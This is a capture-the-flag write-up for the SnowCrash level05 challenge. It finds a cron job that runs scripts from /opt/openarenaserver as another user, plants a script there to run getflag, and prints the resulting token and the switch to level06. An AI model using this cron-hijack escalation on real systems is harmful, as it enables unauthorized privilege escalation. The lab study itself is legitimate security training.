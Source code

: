 # level05

- We login as user level05, we can see a notification: `You have new mail`.
```
level05@SnowCrash:~$ ls /var/mail
level05
```

```
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```

- It looks like a [Cron](https://en.wikipedia.org/wiki/Cron) instruction. It indicates that every two minutes, the command `sh /usr/sbin/openarenaserver` will be executed by user flag05.
```
level05@SnowCrash:~$ ls -l /usr/sbin/openarenaserver
-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
```

- Let's `cat /usr/sbin/openarenaserver`:
```shell
#!/bin/sh

for i in /opt/openarenaserver/* ; do
 (ulimit -t 5; bash -x "$i")
 rm -f "$i"
done
```


- This shell script runs `bash -x` on all the items present in the directory `/opt/openarenaserver/`, with a fixed limit of 5 seconds for each execution. Afterward, the respective item is deleted, so:
```
level05@SnowCrash:~$ echo "getflag > /tmp/flag2level06" > /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/exploit.sh
```

```
level05@SnowCrash:~$ cat /tmp/flag2level06
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

```
level05@SnowCrash:~$ su level06
Password:viuaaale9huek52boumoomioc
level06@SnowCrash:~$
```